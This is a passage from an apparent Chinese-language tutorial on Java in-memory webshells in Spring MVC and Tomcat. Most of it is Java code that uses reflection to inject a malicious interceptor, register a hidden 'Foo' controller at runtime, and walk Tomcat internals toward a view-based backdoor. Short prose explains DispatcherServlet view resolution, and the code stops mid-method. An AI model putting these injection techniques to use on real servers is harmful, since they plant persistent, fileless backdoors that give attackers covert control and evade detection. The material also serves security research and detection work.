 ```java

        Field adaptedInterceptorsField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        nofinal(adaptedInterceptorsField);
        List<HandlerInterceptor> adaptedInterceptors = (List<HandlerInterceptor>) adaptedInterceptorsField.get(mappingHandlerMapping);
        adaptedInterceptors.add(new MyInterceptor());

    }
```





### 5.7 View内存马

调用controller后会返回一个视图，只有controller没有使用@ResponseBody注解情况下view才不为null。

view非null情况下，会选择最“合适”的模板解析器ViewResolver，并在triggerAfterCompletion方法前进行视图渲染，

跟踪DispatcherServlet的render方法，关键点viewResolvers是一个List，该对象为DispatcherServlet的字段：

![DispatcherServlet#resolveViewName](Java应用内存马/DispatcherServlet#resolveViewName.png)

```java
 	public static void injectFooController() throws Exception {
        //scope值为0则从request取attribute，其他值从session取attribute
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        //代码中的MappingInfo需要从入口的注解中获得,这里手动实例化
        PatternsRequestCondition patterns = new PatternsRequestCondition("Foo");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition(RequestMethod.GET,RequestMethod.POST);
        RequestMappingInfo mapping = new RequestMappingInfo(patterns, ms, null, null, null, null, null);
        Method registerHandlerMethod= getMethod("org.springframework.web.servlet.mvc.method.annotation" +
                        ".RequestMappingHandlerMapping",
                "registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
        Method method = Foo.class.getDeclaredMethod("foo", HttpServletRequest.class, HttpServletResponse.class);
        registerHandlerMethod.invoke(mappingHandlerMapping, new Foo(), method, mapping);
    }

    public static void injectViewer() throws Exception{
        injectFooController();

        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        Object tomcatServer = getFieldValue("org.springframework.boot.web.servlet.context" +
                        ".ServletWebServerApplicationContext",
                "webServer", context);
        Object tomcat = getFieldValue("org.springframework.boot.web.embedded.tomcat.TomcatWebServer", "tomcat",
                tomcatServer);
        Object server = getFieldValue("org.apache.catalina.startup.Tomcat", "server", tomcat);
        Object[] services = (Object[]) getFieldValue("org.apache.catalina.core.StandardServer",
                "services", server);
        Object service = services[0];
        //拿到StandardEngine
        StandardEngine engine = (StandardEngine) getFieldValue("org.apache.catalina.core.StandardService", "engine", service);
```